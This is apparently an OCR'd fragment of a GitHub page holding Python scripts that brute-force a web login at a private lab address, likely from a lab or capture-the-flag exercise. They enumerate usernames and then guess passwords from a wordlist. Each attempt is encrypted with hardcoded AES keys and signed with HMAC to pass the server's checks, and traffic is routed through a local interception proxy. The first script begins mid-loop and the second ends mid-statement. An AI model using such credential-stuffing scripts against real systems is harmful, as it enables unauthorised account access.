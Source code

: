 ```

        data = f'{{"username":"{a}","password":"12345"}}'
        en = encrypt(data)

        signature = hmac_sha256(en)

        headers = {"Content-Type": "text/plain", "X-Signature": signature}
        
        time.sleep(1)

        x = requests.post("http://192.168.70.202:3333/login5.php", proxies=proxies, data=en, headers=headers)

        if 'Password salah' in x.text:
            print(f"Username: {a}")
            break
        else:
            print("x")
```

searching for password:
```
import base64
import requests
import hashlib
import hmac
import time
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

proxies = {
  "http": "http://127.0.0.1:8080",
  "https": "http://127.0.0.1:8080",
}

def encrypt(text):
    key = b"MySecretKey12345"
    iv = b"RandomInitVector"
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ct_bytes = cipher.encrypt(pad(text.encode('utf-8'), AES.block_size))
    return base64.b64encode(ct_bytes).decode('utf-8')

def hmac_sha256(text):
    hmac_key = "ThisIsHmacSecretKey"
    h = hmac.new(hmac_key.encode('utf-8'), text.encode('utf-8'), hashlib.sha256)
    return h.hexdigest()

with open("/home/kali/Documents/Login1/pass.txt", "r") as file:
    for line in file:
        a = line.strip()

        data = f'{{"username":"juggstest11","password":"{a}"}}'
        en = encrypt(data)

        signature = hmac_sha256(en)

        headers = {"Content-Type": "text/plain", "X-Signature": signature}
        
        time.sleep(1)

        response = requests.post("http://192.168.70.202:3333/login5.php", proxies=proxies, data=en, headers=headers)

        if 'Password salah' in response.text:
```